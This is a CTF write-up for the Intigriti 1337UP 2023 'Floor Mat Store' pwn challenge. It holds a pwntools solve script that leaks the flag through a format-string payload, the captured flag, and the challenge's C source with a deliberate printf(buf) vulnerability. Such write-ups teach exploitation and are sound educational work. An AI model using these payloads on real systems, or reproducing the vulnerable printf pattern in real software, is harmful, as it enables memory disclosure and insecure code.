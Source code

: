 ```yaml
---
name: Floor Mat Store (2023)
event: Intigriti 1337UP Live CTF 2023
category: Pwn
description: Writeup for Floor Mat Store (Pwn) - Intigriti 1337UP Live CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Floor Mat Store

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/Zu32BHwH-sA/0.jpg)](https://youtu.be/Zu32BHwH-sA "Floor mats: Format string exploit")

## Description

> Welcome to the Floor Mat store! It's kind of like heaven.. for mats

## Solution

Watch video for full solution (format string exploit), but here's a solve script (note the index will vary from local/remote, but you can just send `%p * 100` or something instead).

```python
from pwn import *

# Connect to server
io = process('./floormats')

flag = ''

io.sendlineafter(b'Enter your choice:\n', b'6')
io.sendlineafter(b'Please enter your shipping address:\n',
                 b'%18$p %19$p %20$p %21$p')
io.recvuntil(b'Your floor mat will be shipped to:\n\n')

response = io.recv(1000)

# Split response by spaces
for i, p in enumerate(response.split(b' ')):
    try:
        if not b'nil' in p:
            try:
                # Decode, reverse endianess and print
                decoded = unhex(p.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(i) + ": " + str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException as e:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```

Running the script leaks the flag!

Flag:`INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_pr1n7f}`

## Bonus: source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);

    char *mats[] = {
        "1. Cozy Carpet Mat - $10",
        "2. Wooden Plank Mat - $15",
        "3. Fuzzy Shag Mat - $20",
        "4. Rubberized Mat - $12",
        "5. Luxury Velvet Mat - $25",
        "6. Mysterious Flag Mat - $1337"
    };

    char buf[128];
    char flag[64];
    char *flag_ptr = flag;

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    FILE *file = fopen("flag.txt", "r");
    if (file == NULL) {
        printf("You have a flag.txt, right??\n");
        exit(0);
    }

    puts("Welcome to the Floor Mat store! It's kind of like heaven.. for mats.\n\nPlease choose from our currently available floor mats\n\nNote: Out of stock items have been temporarily delisted\n");

    printf("Please select a floor mat:\n\n");
    for (int i = 0; i < 5; i++) {
        printf("%s\n", mats[i]);
    }

    int choice;
    printf("\nEnter your choice:\n");
    scanf("%d", &choice);

    if (choice < 1 || choice > 6) {
        printf("Invalid choice!\n\n");
        exit(1);
    }

    int matIndex = choice - 1;

    while (getchar() != '\n');

    if (matIndex == 5) {
        fgets(flag, sizeof(flag), file);
    }

    printf("\nPlease enter your shipping address:\n");

    fgets(buf, sizeof(buf), stdin);

    printf("\nYour floor mat will be shipped to:\n\n");

    printf(buf);

    return 0;
}
```
